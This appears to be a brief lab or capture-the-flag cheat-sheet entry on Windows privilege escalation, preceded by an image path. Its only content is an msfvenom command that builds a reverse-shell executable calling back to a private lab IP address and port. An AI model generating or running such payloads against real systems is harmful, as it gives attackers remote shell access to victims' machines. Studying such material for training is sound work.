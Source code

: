 # Windows Privilege Escalation

## Creating a Reverse Shell Executable (.exe)
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.47.80 LPORT=8133 -f exe -o reverse.exe
```
